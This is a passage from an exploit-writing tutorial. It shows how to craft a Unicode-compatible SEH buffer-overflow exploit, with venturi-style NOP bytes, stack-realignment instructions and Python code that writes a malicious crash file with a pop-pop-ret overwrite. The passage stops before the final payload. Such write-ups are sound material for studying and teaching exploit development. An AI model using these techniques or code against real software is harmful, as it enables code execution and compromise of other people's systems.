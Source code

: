 **0x75** - Combined with a null byte before and after produces an “add byte ptr ds:\[EBP], al” instruction. This does not cause a crash. Our registers indicate that EBP points into the address space of our application.

\
**0x71** – Combined with a single trailing null byte produces a “JNO” (jump if overflow) instruction. This will only execute if the overflag flag (OF) is set, and as such, never activates during this exploit.

Now we will need to input these values between the instructions that we want to execute. We will use 0x75 between specific instructions and 0x71 as an NOP sled. Now all we need to do is align a register to the start of our payload and we have finished our exploit.

_Note: A Unicode NOP sled does not technically need a separate instruction. It could simply be achieved using a combination of 0x75 and 0x90. However, we have added in 0x71 to demonstrate a second way of generating a Unicode NOP._

To do so, we will push the value of ESP onto the stack and then pop that value into EAX. Then add and subtract from EAX in order to get the value exactly where we want it.\
The final stack alignment instructions should look something like the following:

```

1.	#realigning stack  
2.	buf += b"\x75"          # Unicode NOP  
3.	buf += b"\x54"          # Push ESP  
4.	buf += b"\x75"          # Unicode NOP  
5.	buf += b"\x58"          # POP EAX  
6.	buf += b"\x75"          # Unicode NOP  
7.	buf += b"\x05\xFF\x10"  # ADD EAX,  
8.	buf += b"\x75"          # Unicode NOP  
9.	buf += b"\x2d\xEA\x10"  # SUB EAX,  
10.	buf += b"\x75"  
```

When read into memory, this will grab our unwanted null bytes and attach them all to the appropriate 0x75 bytes so they do not get in the way of what we are trying to do.

&#x20;Stack alignment instructions in memory

As we can see, our 0x004800B3 pointer has converted into harmless instructions and our Unicode NOPs have absorbed the unwanted null bytes. We then add 0x1000FF00 to EAX and subtract 0x1000EA00 from it in order to leave EAX with the value of 0x0019E664 or 1190 bytes past the current location of EIP.

This is where our second Unicode NOP comes into play. We will now fill the space between EIP and the address of our final payload with the second NOP (0x71).  Remember, there is a null byte added with each character we inject so we only need half the number of characters as there are bytes between EIP and EAX.

```

1.	f = open("crash-5.txt", "wb")  
2.	  
3.	buf = b""  
4.	buf += b"\x41" * 1019  
5.	buf += b"\x71\x71"       # Unicode NOP  
6.	buf += b"\xB3\x48"       # 0x004800b3 | pop ecx, pop ebp, ret  
7.	  
8.	#realigning stack  
9.	buf += b"\x75"           # Unicode NOP  
10.	buf += b"\x54"           # Push ESP  
11.	buf += b"\x75"           # Unicode NOP  
12.	buf += b"\x58"           # POP EAX  
13.	buf += b"\x75"           # Unicode NOP  
14.	buf += b"\x05\xFF\x10"   # ADD EAX,  
15.	buf += b"\x75"           # Unicode NOP  
16.	buf += b"\x2d\xEA\x10"   # SUB EAX,  
17.	buf += b"\x75"  
18.	  
```